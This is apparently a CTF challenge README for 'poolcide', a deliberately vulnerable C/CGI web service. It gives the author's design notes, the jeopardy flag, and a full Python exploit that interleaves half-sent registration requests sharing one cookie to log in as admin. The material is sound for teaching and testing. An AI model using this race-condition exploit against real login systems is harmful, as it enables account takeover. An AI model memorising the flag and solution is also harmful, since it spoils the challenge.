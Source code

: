 # poolcide

Welcome to the pool.

## Public Challenge Description.

Welcome to the pool.
Chill close to the waterfront after reserving your spot with your towel.
Our fine admins all have the same towel color, but you are not allowed to see it.

## Secret Design Specification.

Poolcide is a web challenge that breaks the HTTP protocol a bit to facilitate a race condition.
It's written in C and players get the (obscure gcc89) source code.
As the service uses ASAN and FORTIFY_SOURCE, it does not provide an RCE, _even though_ it has a range of buffer overflows and even uses `gets` to read network input.

The service was originally designed for A/D, but works equally well as easy Jeopardy challenge.
It is based on a logic flaw/race condition.
As race conditions usually don't scale for A/D, this one can be exploited very slowly, as long as the attacker reuses the same Cookie for two logins.
For A/D, the bug would not be easy to see, as most traffic monitoring is per connection, and doesn't analyze interlaced connections.
The whole thing uses the python internal CGI server, I have no clue why it exists - but in comparison to other CGI servers, it doesn't read the complete request, but directly dups the body to the script's `stdin` after the header.
To drop the flag, the checker uses an `age` private key over a normal socket after the HTTP header was submitted.
The attacker also needs to understand and exploit this fact.

The hope here is that players learn about old-skool C, CGI, and logic flaws, even though their first instinct wants to PWN.
Oh and there is a range of fun red herings and memes in this.

## Full Solution Explanation.

In the checker folder, run
`./checker.py run exploit -a url -x 100000 | grep CTF`
a few times.

The flag for jeopardy mode is set to `FLAG=CTF{C-ing-1s-b3li3ving!}` in the [docker-compose.yml](./docker-compose.yml).

The exploit in [checker.py](./checker/checker.py):

- first registers an account to get the user list
- half-registers another user, but doesn't set the password - the serverthread will block in `readline`
- opens another socket, gets the csrf nonce to send half a POST with the same Cookie to register the admin user, doesn't set the password. This sets the username
- Finishes the first registration, this sets the logged-in state to 1.
- Reads the flag from the towel color.

```python
self.info("Step 1: get all available admin ids")
resp, cookie, csrf = self.register(self.random_user(), self.random_password())
admin_list = self.get_admin_list({COOKIE: cookie})
self.info(f"admins: {admin_list}")

found_flags = []
failed = []

for (admin_name, towel_id) in admin_list:
    try:
        self.info(
            f"Step 2: Start logging in as admin user with name {admin_name}"
        )
        resp, cookie, csrf = self.request_index()

        self.info("Step 3: Start registering a user - but without password")
        resp, cookie, csrf = self.request_index(cookies={COOKIE: cookie})

        self.debug(f"Cookie is {cookie}")

        sock_reg = self.connect(retries=8)

        http_reg = build_http(
            method="POST",
            query_params={"route": "register"},
            cookies={COOKIE: cookie},
            body_params={
                "username": f"ATTACKER{self.random_user()}",
                "csrf": csrf,
            },
        )

        # Write some dummy data to make sure our stuff got sent
        sock_reg.write(http_reg)
        time.sleep(0.007)
        sock_reg.write("\n\n\n\n\n")
        time.sleep(0.007)
        sock_reg.read_eager()

        self.info(
            "Step 4: Start registering the admin user (don't send the password) to set username"
        )

        sock_admin = self.connect(retries=8)
        resp, cookie, csrf = self.request_index(cookies={COOKIE: cookie})

        http_admin = build_http(
            method="POST",
            query_params={"route": "register"},
            cookies={COOKIE: cookie},
            body_params={"username": admin_name, "csrf": csrf},
        )
        sock_admin.write(http_admin)

        time.sleep(0.007)
        sock_admin.write("\n\n\n\n\n")
        time.sleep(0.007)
        sock_admin.read_eager()

        self.debug("step 5: finish register to set logged_in to 1")
        sock_reg.write(f"password={self.random_password()}\n")
        self.debug("Register complete. Should be logged in now.")
        self.debug(f"Register response: {sock_reg.read_until('</body>')}")
        sock_reg.close()
        self.info(
            "Now we should be logged in with the admin username. Get the towel!"
        )

        self.info(f"Final step - we are logged in as admin, read the flag.")
        get_flag = build_http(
            method="POST",
            query_params={"route": "towel", "token": towel_id},
            cookies={COOKIE: cookie},
        )
        sock_flag = self.connect(retries=8)
        sock_flag.write(get_flag)
        flag_response = ensure_unicode(sock_flag.read_until("</body>"))
        self.debug(f"Flag response: {flag_response}")

        flag_enc = flag_response.split('id="color">')[1].split("</code>")[0]
        flag = urllib.parse.unquote(html.unescape(flag_enc))
        self.warning(f"Found FLAG: {flag}")
        found_flags.append(flag)

        sock_reg.close()
        sock_admin.close()
        sock_flag.close()
    except Exception as ex:
        self.error(
            f"Could not get flag with towel_id {towel_id} for user {admin_name}: {ex}"
        )
        failed.append(admin_name)

self.info(f"Got {len(found_flags)} flags and failed for {len(failed)}")
```
